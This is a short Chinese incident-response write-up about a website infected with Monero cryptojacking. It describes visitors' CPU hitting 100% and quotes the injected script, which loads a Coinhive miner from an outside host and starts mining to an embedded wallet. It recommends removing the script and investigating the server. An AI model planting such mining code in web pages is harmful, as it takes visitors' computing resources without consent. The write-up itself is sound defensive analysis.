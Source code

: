 门罗币(Monero 或 XMR)，它是一个非常注重于隐私、匿名性和不可跟踪的加密数字货币。只需在网页中配置好js脚本，打开网页就可以挖矿，是一种非常简单的挖矿方式，而通过这种恶意挖矿获取数字货币是黑灰色产业获取收益的重要途径。


# 0X00 现象描述
利用XMR恶意挖矿，会大量占用用户的CPU资源，严重影响了网站的用户体验。

从08/09日0点开始，局域网内某IP访问网站页面会触发安全预警，只要访问此服务器上的网页，CPU直线上升100%<br />![2-5.jpg](_img\05-应急响应/1656922927988-b035140e-3cea-4b70-bb7f-e6c8228000c0.jpeg)


# 0X01 问题解析
通过获取恶意网页url，对网页页面进行分析，发现网站页面被植入在线门罗币挖矿代码：<br />`<script>     var script = document.createElement('script');      script.onload = function () {           // XMR Pool hash   		var m = new CoinHive.Anonymous('BUSbODwUSryGnrIwy3o6Fhz1wsdz3ZNu');          // TODO: Replace the below string with wallet string   		m.start('47DuVLx9UuD1gEk3M4Wge1BwQyadQs5fTew8Q3Cxi95c8W7tKTXykgDfj7HVr9aCzzUNb9vA6eZ3eJCXE9yzhmTn1bjACGK');       };       script.src = 'https://coinhive.com/lib/coinhive.min.js';       document.head.appendChild(script);   </script>`

删除js里面的恶意代码，网站被XMR 恶意挖矿，服务器已经被攻击，进一步做服务器入侵排查。
